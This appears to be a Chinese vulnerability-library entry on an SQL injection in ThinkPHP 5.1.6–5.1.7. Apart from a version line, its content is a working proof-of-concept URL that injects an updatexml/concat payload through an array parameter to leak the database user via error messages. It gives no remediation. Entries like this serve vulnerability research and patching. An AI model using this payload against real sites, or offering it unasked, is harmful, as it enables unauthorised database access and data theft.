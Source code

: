 ```yaml
---
title: 'Thinkphp-5.1.(6-8)-sql注入漏洞'
date: Sat, 03 Oct 2020 16:28:41 +0000
draft: false
tags: ['白阁-漏洞库']
---
```


### 漏洞影响

5.1.6<=ThinkPHP<=5.1.7 非最新版5.1.8

### 漏洞POC

没开启debug看不到报错信息```
http://********/index/index/index?username[0]=point&username[1]=1&username[2]=updatexml(1,concat(0x7,user(),0x7e),1)^&username[3]=0 

